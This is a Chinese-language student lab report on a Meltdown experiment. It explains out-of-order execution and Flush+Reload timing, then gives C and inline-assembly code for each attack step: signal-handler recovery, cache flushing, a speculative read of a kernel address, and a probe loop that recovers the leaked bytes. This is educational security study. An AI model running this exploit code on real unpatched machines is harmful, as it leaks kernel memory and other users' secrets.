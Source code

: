 # meltdown攻击实验报告

## 一 攻击原理

### 1 乱序执行

指令在CPU中执行可分为三个阶段：

（1）取指令、解码后将指令送到各自的保留站（Reservation Station）中保存下来。若操作数在寄存器中，则将操作数和指令一起放入保留站；若操作数还在计算中，则将那条计算指令的识别信息保存

（2）操作数准备好后，保留站将操作数和可执行指令送入流水线，并将结果保存在一个结果序列中

（3）指令退休，重新排列结果序列并进行安全检查，结果送入寄存器

可见如果指令只是被加载而未执行，不会进行安全检查。

当发生越权访问时，由于乱序执行而提前被加载的指令会被处理器丢弃，但这些指令对缓存的操作不会被重置，可以利用这一点进行侧信道攻击。

### 2 侧信道攻击

采用Flush+Reload方式

（1）将被监控的内存的映射从cache中剔除

（2）在（3）之前，允许其访问内存

（3）测量重新载入内存的时间，如果在（2）阶段目标访问了指定内存空间，那么在cache中已有记录，重新载入需要的时间很短；而如果没有访问，则需要很长时间

## 二 攻击步骤

### 1 准备工作

首先通过argv参数获取攻击地址和攻击范围

```c
sscanf(argv[1], "%lx", &addr);//将地址转为无符号16进制数
sscanf(argv[2], "%lx", &size);//将范围转为无符号16进制数
```

设置信号处理函数，当捕捉到段错误信号时修改指令寄存器rip

```c
void sigsegv(int sig, siginfo_t *siginfo, void *context)
{
    ucontext_t *ucontext = context;//用于更改上下文 
    ucontext->uc_mcontext.gregs[REG_RIP] = (unsigned long)stop;//将下一条指令位置改为stop的值
}

int set_signal(void)
{
    struct sigaction act = 
    {
        .sa_sigaction = sigsegv,//设置信号处理函数
        .sa_flags = SA_SIGINFO,//信号附带的参数可以被传递到信号处理函数中
    };
    
    return sigaction(SIGSEGV, &act, NULL);//捕捉段错误信号，并传递相关参数
}
```

为当前进程分配CPU核

```c
static void pin_cpu0()
{
    cpu_set_t mask;		//声明一个CPU集
    /* PIN to CPU0 */
    CPU_ZERO(&mask);	//清空CPU集
    CPU_SET(0, &mask); 	//将0号CPU加入CPU集
    sched_setaffinity(0, sizeof(cpu_set_t), &mask);//让当前进程运行在mask设定的CPU即0号CPU上
}
```

为区分数据是否在cache中，分别测定数据在cache中和不在cache中时的读取数据时间，然后求临界值

```c
int get_access_time(volatile char *addr)//测定访问数据时间
{
    unsigned long long begin, end;
    unsigned i;
    begin = __rdtscp(&i);//读取时间戳计数器的值
    (void)*addr;		//访问数据
    end = __rdtscp(&i);	//再次读取时间戳计数器的值
    return end-begin;	//差值可衡量访问数据的时间
}

static void set_cache_hit_threshold(void)		//计算临界时间
{
    long cached, uncached, i;
    
    for (cached = 0, i = 0; i < 1000000; i++)
        cached += get_access_time(hack_array);	//保证数据已进入cache
    
    for (cached = 0, i = 0; i < 1000000; i++)
        cached += get_access_time(hack_array);	//测定访问在cache中数据的时间
    
    for (uncached = 0, i = 0; i < 1000000; i++)
    {
        _mm_clflush(hack_array);//清空相应缓存
        uncached += get_access_time(hack_array);//测定访问不在cache中数据的时间
    }
    
    cached /= 1000000;	//取平均值
    uncached /= 1000000;//取平均值
    
    cache_hit_threshold = sqrt(cached * uncached);//计算临界值
    
    printf("cached = %ld, uncached = %ld, threshold %d\n",
           cached, uncached, cache_hit_threshold);
}
```

以只读方式打开文件/proc/version，此时准备工作完成

```c
fd = open("/proc/version", O_RDONLY);
if (fd < 0)
{
    perror("open");
    return -1;
}
```

### 2 Flush

使即将用于缓存的hack_array数组线性地址的缓存线失效，由于页面大小为4k，每隔4k地址清空一次

```c
void clflush_target(void)
{
    int i;
    for (i = 0; i < VARIANTS_READ; i++)
        _mm_clflush(&hack_array[i * PAGE_SIZE]);
}
```

调用mfence，确保在执行speculate之前所有指令都已被执行完

```c
_mm_mfence();
```

### 3 speculate（包括reload）

使用内联汇编，分析见注释

```c
static void __attribute__((noinline))speculate(unsigned long addr)
{
    asm volatile 
    (
        "1: ;" 
               
        ".rept 300;"		//将加法指令循环执行300次，使处理器能乱序执行
        "add $0x141, %%rax;"
        ".endr;"
                  
        "movzx (%[addr]), %%rax;"	//将目标内核地址对应数据（下称data）存入rax中，此指令将发生段错误
        
        //由于乱序执行，接下来3条指令在处理器开始处理段错误之前已被加载
        "shl $12, %%rax;"			//将data左移12位，即*4k
        "jz 1b;"					//若结果为0，跳转
        "movzx (%[target], %%rax, 1), %%rbx\n"	//此时为reload阶段，将hack_array[data*4k]的值存入rbx
        //对执行结果重新排列并进行安全检查，发现越权访问，丢弃所有结果，但不会恢复cache的状态
        //而之前已将hack_array[data*4k]所在页加载到缓存中，接下来可进行侧信道攻击
                  
        "stop: nop;"//sigaction函数捕捉到段错误信号后将rip设为nop指令所在地址，程序跳转到此处继续执行
        :		//无输出数
        : [target] "r" (hack_array),	//输入数为hack_array和addr
        [addr] "r" (addr)
        : "rax", "rbx"					//rax和rbx被修改
    );
}
```

### 4 probe

调用check函数，分析见注释

```c
static int probe[256];	//数组大小为256，用于判断要监听的一位数据是0到255的哪一个
void check(void)
{
    int i, time, mix_i;
    volatile char *addr;
    
    for (i = 0; i < 256; i++)
    {
        mix_i = ((i * 167) + 13) & 255;	//乱序生成0到255的数
        
        addr = &hack_array[mix_i * PAGE_SIZE];
        time = get_access_time(addr);	//测定访问数据时间
        
        if (time <= cache_hit_threshold)
            //若访问时间小于临界值，说明hack_array[mix_i*4k]所在页已被加载到cache
        	probe[mix_i]++;//mix_i可能就是被监听的数据，为使结果更准确，外面循环1000次，多次进行时间测定
    }
}
```

最后取probe数组中的最大值所对应的下标（在probe中的位置）即为1位被监听数据。

要读取的数据大小为size，循环size次，每次读地址自加，就能得到所有数据。

## 三 预期结果

想要读取文件/proc/version中70字节的数据，编写run.sh脚本找到开始地址，使用gdb调试

![p1](https://github.com/OSH-2018/4-jiachenglian/blob/master/1.png)

在speculate发生段错误，继续执行，调用sigsegv函数，修改rip

![p1](https://github.com/OSH-2018/4-jiachenglian/blob/master/2.png)

跳回speculate继续执行

![p1](https://github.com/OSH-2018/4-jiachenglian/blob/master/3.png)

程序执行结果与实际数据对比

![p1](https://github.com/OSH-2018/4-jiachenglian/blob/master/4.png)

可见准确读出了前70字节的数据

